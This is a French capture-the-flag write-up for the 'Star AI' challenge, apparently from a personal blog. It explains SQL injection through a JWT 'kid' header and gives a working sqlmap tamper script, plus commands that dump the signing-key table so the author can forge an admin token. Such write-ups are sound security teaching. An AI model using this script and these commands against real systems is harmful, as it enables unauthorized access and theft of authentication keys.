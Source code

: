 ```yaml
---
title: "Star AI"
date: 2023-12-06T09:03:20-08:00
draft: false
---
```


# Cybersecurity Business Convention 2023 - Star AI - *400 pts*

## Énoncé

Ce site de génération d'images d'étoiles peut sembler innocent à permière vue, mais j'ai eu vent que son propriétaire avait caché des données sensibles et s'en servait de point d'exfiltration.

Devenez "admin" de la plateforme pour en savoir plus.

## Solution

Le challenge commence sur le site de Star AI, qui revendique simplement être une API de génération d'images.

![Site](/images/004/01.png)

On remarque en haut à droite une fonction API qui nous redirige vers un endpoint GET /api/tielles, qui nous renvoie une image aléatoire d'astrophotographie.

![API](/images/004/02.png)

Si l'on observe les requêtes qui passent avec un proxy (type Burp Suite), on peut remarquer que l'API nous attribue un jeton d'authentification lors de la visite de l'endpoint `/api/getToken`, qui nous redirige ensuite vers `/api/star`.

![GetToken](/images/004/03.png)

Lorsque l'on décode le JWT, on se rend compte qu'il ne contient que très peu d'informations. Le seul header un peu inhabituel est le header `kid`, qui contient un GUID qui semble ne pas changer entre plusieurs tokens.

![Decoded JWT](/images/004/04.png)

Si l'on ne connaît pas le fonctionnement du paramètre `kid` dans un JWT, une petite recherche Google nous permet de retrouver la RFC ou d'autres ressources qui nous expliquent que le `kid` est un paramètre qui sert à indiquer au serveur quelle clé est utilisée pour signer le token en question.

Cependant, selon la RFC, il n'y a pas de méthode d'implémentation préconisée. Il est donc possible que le challenge repose sur une mauvaise implémentation de ce paramètre.

Selon l'implémentation, le stockage de la clé peut se faire en BDD, sur le FS, ou même à l'exterieur de la machine.

Ici, lorsqu'on joue un peu avec le paramètre KID, on se retrouve avec une erreur qui nous indique que le `kid` est invalide.

![Invalid KID 1](/images/004/05.png)

![Invalid KID 2](/images/004/06.png)

Au bout de quelques tests, on se rend compte que la clé est stockée en base de données, car on est en mesure de provoquer une erreur SQL en insérant le caractère `'`

![SQL Error 1](/images/004/07.png)

![SQL Error 2](/images/004/08.png)

Nous sommes sûrement en face d'une injection SQL. Il est possible de tester ça à la main, mais j'aime bien sortir mon `sqlmap` de temps en temps.

L'exploitation avec `sqlmap` est automatique, mais elle ne fonctionnera pas sans lui donner des indications précises sur l'endroit et la façon d'injecter notre SQL.

Pour que `sqlmap` puisse faire tranquillement son travail, nous allons avoir besoin de créer un tamper script, qui va altérer son comportement comme on le souhaite.

On crée le script `/usr/share/sqlmap/tamper/jwtkid.py` et on peut le faire de cette façon :

```python
#!/usr/bin/env python

from lib.core.enums import PRIORITY
import base64

__priority__ = PRIORITY.LOWEST

def dependencies():
    pass

def tamper(payload, **kwargs):
    encoded = str('{"alg":"HS256","typ":"JWT","kid":"'+payload+'"}').encode('ascii')
    base = base64.b64encode(encoded)
    return base.decode('ascii')
```

Ensuite, on copie la requête que l'on veut faire depuis `Burp Suite` dans un fichier, pour la passer à `sqlmap` ensuite, et marquer l'endroit où on veut faire notre injection avec le caractère `*`

![Requête](/images/004/09.png)

Ici, j'ai remplacé la première partie du JWT par l'injection. Il ne reste plus qu'a le laisser faire son travail :)

```bash
sqlmap -r [fichier_requete] --ignore-code 401 --tamper jwtkid.py
```

![SQLmap 1](/images/004/10.png)

L'injection a été trouvée, on peut maintenant dumper le contenu de la BDD.

```bash
sqlmap -r [fichier_requete] --ignore-code 401 --tamper jwtkid.py --dbs
```

![SQLmap 2](/images/004/11.png)

```bash
sqlmap -r [fichier_requete] --ignore-code 401 --tamper jwtkid.py -D starai --tables
```

![SQLmap 3](/images/004/12.png)

```bash
sqlmap -r [fichier_requete] --ignore-code 401 --tamper jwtkid.py -D starai -T JWTkeys --dump
```

![SQLmap 4](/images/004/13.png)

Nous somes maintenant en possession de la clé pour signer les JWT de l'application ! Il ne reste plus qu'a se forger notre propre token pour obtenir les droits `admin`.

![JWT Forge](/images/004/14.png)

On rejoue une simple requête sur l'endpoint `/api/star` avec ce nouveau token, et on obtient le flag !

![Flag](/images/004/15.png)

*FLAG : CBC{J\*\*\*\*\*\*\*\*\*\*\*\*}*

